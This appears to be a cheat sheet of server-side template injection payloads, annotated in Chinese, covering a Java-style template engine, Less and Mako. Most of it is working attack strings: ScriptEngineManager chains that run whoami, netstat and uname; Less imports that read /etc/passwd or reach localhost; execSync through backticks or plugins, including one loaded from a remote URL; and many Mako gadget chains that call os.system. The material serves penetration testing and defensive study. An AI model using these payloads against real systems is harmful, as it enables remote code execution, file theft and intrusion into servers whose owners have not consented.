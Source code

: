 	{{'a'.toUpperCase()}} would result in 'A'
	{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
	命令执行
	{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

	{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

	{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

	{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
 #### Less
	SSRF / LFI
	@import (inline) "http://localhost";
	或者
	@import (inline) "/etc/passwd";
	Lessjs < v3 - 命令执行
	body {
	  color: `global.process.mainModule.require("child_process").execSync("id")`;
	}
	插件
	使用本地插件的例子
	@plugin "plugin-2.7.js"	;
	使用远程插件的例子
	@plugin "http://example.com/plugin-2.7.js"
	版本 2 RCE
	functions.add('cmd', function(val) {
	  return `"${global.process.mainModule.require('child_process').execSync(val.value)}"`;
	});
	版本 3 及更高版本的RCE 
	//Vulnerable plugin (3.13.1)
	registerPlugin({
	    install: function(less, pluginManager, functions) {
	        functions.add('cmd', function(val) {
	            return global.process.mainModule.require('child_process').execSync(val.value).toString();
	        });
	    }
	})
 #### Mako
  	<%
	import os
	x=os.popen('id').read()
	%>
	${x}
	TemplateNamespace 直接访问os模块
	${self.module.cache.util.os.system("id")}
	${self.module.runtime.util.os.system("id")}
	${self.template.module.cache.util.os.system("id")}
	${self.module.cache.compat.inspect.os.system("id")}
	${self.__init__.__globals__['util'].os.system('id')}
	${self.template.module.runtime.util.os.system("id")}
	${self.module.filters.compat.inspect.os.system("id")}
	${self.module.runtime.compat.inspect.os.system("id")}
	${self.module.runtime.exceptions.util.os.system("id")}
	${self.template.__init__.__globals__['os'].system('id')}
	${self.module.cache.util.compat.inspect.os.system("id")}
	${self.module.runtime.util.compat.inspect.os.system("id")}
	${self.template._mmarker.module.cache.util.os.system("id")}
	${self.template.module.cache.compat.inspect.os.system("id")}